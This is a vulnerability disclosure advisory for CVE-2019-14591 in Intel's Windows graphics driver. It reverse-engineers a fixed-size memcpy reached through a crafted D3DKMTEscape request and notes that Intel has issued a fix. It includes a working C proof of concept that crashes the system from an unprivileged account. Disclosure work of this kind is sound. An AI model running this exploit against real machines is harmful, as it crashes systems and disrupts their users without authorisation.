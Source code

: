 # SSD Advisory - Intel Windows Graphics Driver Out of Bounds Read Denial of Service

## Vulnerabilities Summary
The igdkmd64 module in the Intel Graphics Driver DCH on Windows allows unprivileged users to cause Denial of Service (crash) via a crafted D3DKMTEscape request.

## CVE
CVE-2019-14591

## Credit
SSD Secure Disclosure / Ori Nimron

## Affected Systems
Tested on Intel Graphics Driver DCH:  
25.20.100.6323.  
25.20.100.6577.  
25.20.100.6618 (latest at the time of writing this report).  
Testing environment:  
OS Name Microsoft Windows 10 Pro.  
Version 10.0.17134 Build 17134.  
OS Manufacturer Microsoft Corporation.  
System Model System Product Name.  
System Type x64-based PC.  
Processor Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 3401 Mhz, 4 Core(s), 8 Logical Processor(s).  

## Vendor Response
Intel fixed the issue in version 26.20.100.7209 of the Intel(R) Graphics Driver. For more information see [2019.2 IPU](https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00242.html).

## Vulnerability Details
The driver’s callback function DxgkDdiEscape contains an Out-Of-Bound Read that can be triggered by unprivileged users who can trigger the vulnerability by crafting a malicious request to the D3DKMTEscape function.  
In DxgkDdiEscape, there is a global variable (which I named as “escape_jmp_table”) which is an array of pointers to functions. The function will choose which function to call based on the value of the third parameter of the privateDriverData value that is controlled by the local user.  

The structure of privateDriverData looks something like this:
``` c
typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[100];
} privateDriverData;
```

The DxgkDdiEscape will call to sub_14004FCE0 (which I will name it as ESCAPE_CONTINUE_TO_TABLE). The ESCAPE_CONTINUE_TO_TABLE will load the “escape_jmp_table” and will call the function to which escape_jmp_table[pPrivateDriverData.escape_jmp_table_index] points to.

![Ida 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-1.png)

The vulnerability discovered lies in the function being called by the pointer found by the value of the second index of the escape_jmp_table. This function (sub_140085E70) does a switch case on the fourth parameter of the privateDriverData and decides to which function to call by the value given.  
This image shows the various switch case handling this function (sub_140085E70) supports:

![Ida 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-2-1024x206.png)

In case that the value of the fourth parameter in the structure is 205, the function the sub_140092E80 will be called:

![Ida 3](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-3.png)

This function allocates a buffer on the stack and calls sub_1400AD9F0 with this buffer, I will name this buffer as local_buf:

![Ida 4](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-4.png)

The subsequent function sub_1400AD9F0 does a memcpy(pPrivateDriverData.buffer + 0xb, 0x200, localbuf + 0xb, 0x200).  
The memcpy is called with a fixed size, no checks on the pPrivateDriverData buffer size, which means that if pPrivateDriverData.buffer length is smaller than 0x200 + 0xb, an overflow will be triggered. This overflow can lead to Escalation of Privileges (by utilizing a null pointer dereference exploitation method) or local Denial of Service.

![Ida 5](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-5.png)

## Proof of Concept
The following PoC calls the D3DKMTEscape function with previously mentioned parameters that will trigger the vulnerable function and the system will crush due to security cookie check failure. The full code is in the Escape directory which contains a visual studio solution:

``` c
#define BUF_SIZE 100

static const char* intel = "Intel";

typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[BUF_SIZE];
} PrivateDriverData;

int main()
{
	int result = 0;
	DRIVER_INFO driverInfo = { 0 };
	D3DKMT_ESCAPE escapeObj = { 0 };
	PrivateDriverData data = { 0 };
	int status = initDriver(&amp;driverInfo, intel);
	if (!NT_SUCCESS(status)) {
		printf("Could not initialize connection to driver");
		return -1;
	}
	printf("[+] Initialized driver\n");
	escapeObj.Type = D3DKMT_ESCAPE_DRIVERPRIVATE;
	escapeObj.hAdapter = driverInfo.hAdapter;
	escapeObj.hDevice = (D3DKMT_HANDLE)NULL;
	data.unknown1 = 'AAAA';
	data.unknown2 = 'BBBB';
	data.escape_jmp_table_index = 1;
	data.switchcase_index = 205; // vulnerable case
	memset(data.buffer, 'A', BUF_SIZE);

	escapeObj.pPrivateDriverData = (void*)&amp;data;
	escapeObj.PrivateDriverDataSize = sizeof(data);
	status = D3DKMTEscape(&amp;escapeObj); // Will not return, it will crash the system.
	if (!NT_SUCCESS(status)) {
		printf("[-] D3DKMTEscape failed (%x)", status);
	}
	getchar();
	return 0;
}
```

## Result in WinDbg
![WinDbg 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-DOS-Windbg.png)
![WinDbg 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-DOS-Windbg-2.png)
We can see in the above screenshot that a buffer overflow occurred, and the system crashes.
